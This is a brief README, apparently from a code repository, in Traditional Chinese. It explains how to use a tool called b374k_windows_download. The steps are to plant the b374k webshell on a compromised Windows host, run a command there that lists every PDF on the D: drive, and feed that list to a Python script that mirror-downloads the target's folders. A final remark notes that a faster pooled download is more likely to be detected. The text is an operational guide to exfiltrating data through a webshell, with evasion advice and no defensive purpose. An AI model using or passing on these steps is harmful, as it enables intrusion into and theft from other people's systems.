 # Mirror download

## 使用b374k_windows_download
1. 基於windows拿到webshell上傳b374k_v2.3
2. 目標cmd執行 chcp 65001 | dir "D:\*.pdf" /b /s >> filepath.txt
3. 產出filepath.txt拖回本機 執行 python3 b374k_windows_download.py filepath.txt
4. 依序產出資料夾並把目標個資料夾資料鏡像下載  
注意:pool可以加快下載，但較容易被發現

